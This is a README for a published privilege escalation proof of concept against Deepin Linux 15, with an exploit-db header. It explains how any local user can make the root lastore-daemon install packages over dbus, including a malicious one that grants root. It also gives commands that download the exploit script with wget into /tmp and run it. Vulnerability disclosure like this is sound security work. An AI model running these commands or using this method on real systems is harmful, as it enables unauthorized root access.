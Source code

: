 # privilege escalation POC for deepin 15

## Vulnerability Description
* In Deepin Linux 15, they designed a daemon (called lastore-daemon) based on dbus and apt to support deepin-appstore.
* Lastore-daemon runs with root privilege to run apt-get commands and listens  to dbus message from every user.
* So, we can send the package name along with some options to lastore-daemon to install or remove any package, even to destroy the host system.
* Apart from that, if we prepare a malicious package and try to cheat lastore-daemon into installing it, then anyone can have root privilege.



## Header for [exploit-db](https://www.exploit-db.com/exploits/39433/)
		Exploit Title: Lastore-daemon in Deepin 15 results in privilege escalation
 		Date: 20160208
 		Exploit Author: King's Way <root#kings-way.info>
	 	Vendor Homepage: http://www.deepin.org
		Software Link: http://cdimage.linuxdeepin.com/releases/15.1/deepin-15.1-amd64.iso
		Version: Deepin 15 & 15.1
 		Tested on: Deepin 15 & 15.1
 		CVE : null

## Ps
Hex data of the homemade package have been written in a single python file, thus all you need to do is:
	
	$ wget https://raw.githubusercontent.com/kings-way/deepinhack/master/deepinhack.py -O  /tmp/deepinhack.py
	
	$ python /tmp/deepinhack.py

Of course, the deb package and the initial python code have been uploaded too.